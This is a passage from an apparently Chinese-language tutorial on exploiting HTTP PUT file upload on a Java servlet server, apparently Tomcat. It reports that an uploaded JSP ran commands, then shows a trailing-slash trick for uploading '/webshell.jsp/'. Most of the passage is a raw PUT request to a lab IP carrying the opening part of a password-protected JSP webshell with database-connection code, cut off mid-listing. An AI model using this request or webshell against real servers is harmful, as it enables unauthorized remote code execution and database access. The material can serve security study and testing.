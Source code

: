 可以看到返回响应码201，说明我们上传成功了。我们访问我们jsp脚本试试：

![image](../img/474313d3d1c588a43a1c516ff9bc09ad.png)

看到可以命令执行(我们上传的payload是命令执行的脚本)，我们也可以上传一个jsp的webshell

##### 上传姿势二：

我们知道servlet在识别1.jsp/时会把它当作非jsp文件交给DefaultServlet 来处理，而后续保存文件的时候，文件名不接受/字符，故而忽略掉

payload：(这次我们演示上传一个webshell)

```
PUT /webshell.jsp/ HTTP/1.1  
Host: 172.26.1.8:8080  
Content-Length: 6239  

<%@page import=“[java.io](http://java.io).*,java.util.*,[java.net](http://java.net).*,java.sql.*,java.text.*”%>

<%!

String Pwd = “hetian”;

String cs = “UTF-8”;

String EC(String s) throws Exception {

return new String(s.getBytes(“ISO-8859-1”),cs);

}

Connection GC(String s) throws Exception {

String[] x = s.trim().split(“choraheiheihei”);

Class.forName(x[0].trim());

if(x[1].indexOf(“jdbc:oracle”)!=-1){

return DriverManager.getConnection(x[1].trim()+":"+x[4],x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);

}else{

Connection c = DriverManager.getConnection(x[1].trim(),x[2].equalsIgnoreCase("[/null]")?"":x[2],x[3].equalsIgnoreCase("[/null]")?"":x[3]);

if (x.length > 4) {

c.setCatalog(x[4]);

}

return c;

}

}
```
